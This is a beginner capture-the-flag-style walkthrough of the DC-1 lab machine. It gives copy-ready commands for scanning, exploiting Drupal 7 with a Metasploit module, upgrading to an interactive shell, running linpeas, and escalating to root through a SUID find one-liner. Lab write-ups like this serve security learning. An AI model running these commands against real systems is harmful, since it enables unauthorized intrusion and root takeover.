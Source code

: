 # Privilege-escalation — DC-1

**Credits:**

**Rejaul Islam**  
_Security enthusiast_

............................................

This is a beginner-friendly writeup for the **DC-1** vulnerable machine (privilege escalation).
Below you’ll find the full step-by-step process, explanations for every command (so beginners understand _why_ we run them), and copy-ready `bash` blocks so you can paste them directly into a terminal while working in an authorized lab environment (TryHackMe, VulnHub, your own VMs, etc).

> **Important:** Only run these steps against systems you own or have explicit permission to test. Using these techniques on unauthorized machines is illegal.

---

## Overview — what we’ll do

1. Discover the target IP on the local network.
2. Port-scan the target to find services.
3. Visit the web service, identify the application (Drupal 7).
4. Use Metasploit to exploit the web app and get a low-privileged shell (www-data).
5. Upgrade to an interactive bash shell.
6. Run automated enumeration (linpeas) to find privilege-escalation clues.
7. Use the discovered vector (`/usr/bin/find` with SUID or sudo rights) to escalate to root.

---

## Step 0 — Pre-reqs (tools you may need)

Make sure you have these tools installed on your attack machine (Kali / Parrot / your VM):

- `netdiscover` (or `arp-scan`) — for local host discovery
- `rustscan` or `nmap` — for port scanning
- `msfconsole` (Metasploit) — exploitation framework
- `python` — for interactive shells (`pty.spawn`)
- `wget` / `curl` — to download linpeas
- `linpeas.sh` — automated enumeration (from approved repo)

---

## Step 1 — Find the target IP on your local network

We use a simple network discovery tool to find machines on the LAN. This discovers live hosts and their MAC addresses.

```
# Discover hosts on the local network (run as root or with sudo where required)
sudo netdiscover
```

**What this does & why:**
`netdiscover` performs ARP sweeps on your subnet and lists live hosts. From the example output you identified the vulnerable machine:

```
192.168.0.119   08:00:27:aa:94:9f      5     210  PCS Systemtechnik GmbH
```

---

## Step 2 — Port scan the target

Scan the discovered IP for open ports and services.

```
# Fast port scan using rustscan (adjust flags/options as needed)
rustscan -a 192.168.0.119
```

**What this does & why:**
`rustscan` is a very fast scanner that finds open ports so you know what services are reachable. Example output showed:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
46679/tcp open  unknown
```

This tells us a web service is running on port 80 — a good place to look.

---

## Step 3 — Visit the web service

Open the IP in your browser to inspect the web app.

```
http://192.168.0.119:80
```

**What to look for:**
A login page or clues about the web application framework. In this case, the site showed it was running **Drupal 7** (you can also confirm with a Wappalyzer browser extension or by checking page source and specific Drupal files).

---

## Step 4 — Find known exploits for the app

Search for known vulnerabilities for the detected application/version. On Kali you can use `searchsploit`.

```
# Search local ExploitDB for "drupal 7"
searchsploit "drupal 7"
```

**What this does & why:**
`searchsploit` queries a local copy of Exploit-DB for public exploits. You’ll see possible exploits for Drupal 7 — some of which are commonly integrated as Metasploit modules.

---

## Step 5 — Use Metasploit to exploit the site

Open Metasploit and search for a Drupal 7 module.

```
# run msfconsole
msfconsole

# inside msfconsole, search for drupal modules
search drupal 7
```

If you find a module that matches, use it and configure the target:

```
# example Metasploit flow (run inside msfconsole)
use <module_index_or_path>     # e.g., use exploit/unix/webapp/drupal_drupalgeddon
set RHOSTS 192.168.0.119
set RPORT 80
exploit
```

**What this does & why:**
Metasploit automates exploiting a known vulnerability. A successful exploit can give a Meterpreter session, which you can convert to a shell.

---

## Step 6 — Get an interactive shell

If you have a meterpreter session, spawn a system shell. If you only have a basic shell, upgrade it to a proper interactive bash shell.

```
# From meterpreter session:
shell

# If the shell is awkward / not interactive, spawn a proper PTY-backed bash:
python -c 'import pty; pty.spawn("/bin/bash")'
```

**What this does & why:**
`python -c 'import pty; pty.spawn("/bin/bash")'` upgrades a limited shell to a proper interactive terminal so you can run interactive commands comfortably. After upgrading you might see:

```
www-data@DC-1:/var/www$
```

This indicates you are the web server user (`www-data`) on the target.

---

## Step 7 — Automated enumeration with linpeas

Automated scripts like `linpeas.sh` can highlight common privilege escalation vectors (SUID binaries, dangerous file permissions, misconfigured sudo, weak services, etc). Download and run linpeas **only from the official repo**.

```
# move to /tmp (or another writable dir)
cd /tmp

# download linpeas (official repository)
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh

# make it executable
chmod +x linpeas.sh

# run it (this will print a lot of output; look for red/highlighted lines)
./linpeas.sh
```

**What this does & why:**
`linpeas.sh` performs many checks and prints interesting findings (SUID files, sudoers misconfigs, weak services). Focus on red/highlighted results because they usually indicate probable escalation paths.

> Note: Always verify the URL before downloading and only fetch from trusted repositories.

---

## Step 8 — Inspect linpeas results & find SUID/sudo clues

linpeas often points out binaries with SUID bits or sudo rights. In this example linpeas highlighted:

```
-rwsr-xr-x 1 root root 159K Jan 6 2012 /usr/bin/find
```

**What this means:**
The `s` in the permissions (`rws`) denotes the SUID bit — if this `find` binary is SUID root (or if `find` is runnable as root via sudo without a password), it can be abused to get a root shell. Always verify context: SUID vs sudo NOPASSWD changes exploitation method.

---

## Step 9 — Escalate privilege using `find` (lab context)

If `find` is available to you under SUID or as a sudo NOPASSWD command, a common technique (used in labs) is to execute a shell from `find`:

```
# From a writable directory or the target path
find . -exec /bin/sh \; -quit
```

**What this does & why:**
`find . -exec /bin/sh \; -quit` tells `find` to execute `/bin/sh` for the first match and then quit. If `find` is running with root privileges (SUID or via sudo), the spawned shell inherits those privileges and becomes a root shell (`#` prompt).

**After running:**

```
# whoami
root
```

Indicates you are now root.

> **Security note:** This command demonstrates how `find` can be used to spawn shells; in real-world systems, services that expose root-capable binaries to untrusted users are misconfigurations and should be corrected.

--- THE END ---
